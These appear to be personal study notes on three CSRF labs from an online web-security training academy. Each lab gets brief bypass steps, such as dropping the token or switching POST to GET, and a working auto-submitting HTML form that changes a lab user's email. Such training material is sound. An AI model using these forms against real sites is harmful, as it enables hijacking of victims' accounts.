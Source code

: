 
# CSRF
actually all labs with CSRF exploit objectives are "change email of the victim, login as someone" and included exploit server

**CSRF vulnerability with no defenses**

    CSRF PoC Generator in Burp Sutie
```html
<form action="https://0abb00e2038e5b2c8013305500ed00f7.web-security-academy.net
/my-account/change-email" method="POST">
  	<input type="hidden" name="email" value="hacked2222@mail" />
	</form>
	<script>
  	document.forms[0].submit()
	</script>
```
---

**CSRF where token validation depends on request method**
    
    can't use used csrf token
1. remove csrf params token from body
2. change method from POST to GET
3. generate PoC
```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
	<input type="hidden" name="email" value="anything@web-security-academy.net">
</form>
<script>
    	document.forms[0].submit();
</script>
```
---

**CSRF where token validation depends on token being present**

1. remove csrf params token
2. generate PoC
```html
<html>
  <body>
	<form action="https://0a4e00630414272080d535cd004900bc.web-security-academy.net
/my-account/change-email" method="POST">
  	<input type="hidden" name="email" value="HACKED@MAIL" />
	</form>
	<script>
  	document.forms[0].submit()
	</script>
  </body>
</html>
```
---


[def]: #client-side-summary
